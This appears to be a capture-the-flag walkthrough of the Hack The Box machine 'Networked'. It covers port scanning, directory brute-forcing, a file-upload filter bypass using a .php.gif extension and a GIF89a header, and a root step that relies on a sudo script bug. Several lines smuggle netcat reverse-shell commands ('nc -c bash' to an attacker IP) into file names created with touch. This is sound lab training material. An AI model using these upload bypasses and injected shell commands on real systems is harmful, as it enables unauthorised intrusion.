










# [Networked](https://app.hackthebox.com/machines/Networked)

```bash
nmap -p- --min-rate 10000  10.10.10.146
```




After identifying open ports, we look for them

```bash
nmap -sC -sV -p22,80,443 10.10.10.146 -Pn
```




Directory brute-forcing

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.146/FUZZ
```

Here we find a directory called /backup.

After reading, 'upload.php' file, we understand that, '.gif' format is allowed.

I upload malicious php file into machine by doing below steps.

1. change file extension to .php.gif
2. Add 'GIF89a;' this string at the beginning of the file.






Here's what, we can execute commands.

Let's add reverse shell..

**I TRIED MANY TYPES OF REVERSE SHELL, BUT NONE OF THEM WORKED EVEN I HAVE RCE, I TRIED ANOTHER WAY BY USING TOUCH COMMAND.**

```bash
touch — ‘;nc -c bash 10.10.16.4 1337;.php’
```






To privilege to guly  user.

I go to '/var/www/html/uploads' directory, write below command

```bash
touch '; nc -c bash 10.10.16.4 3333'
```

After 3 minutes, I got shell.




user.txt




After looking at sudo -l , I see changename.sh file, and run with sudo privileges, I enter inputs like this.

Why it is worked, let's look at this [**BUG**](https://bugzilla.redhat.com/show_bug.cgi?id=1697473)





root.txt

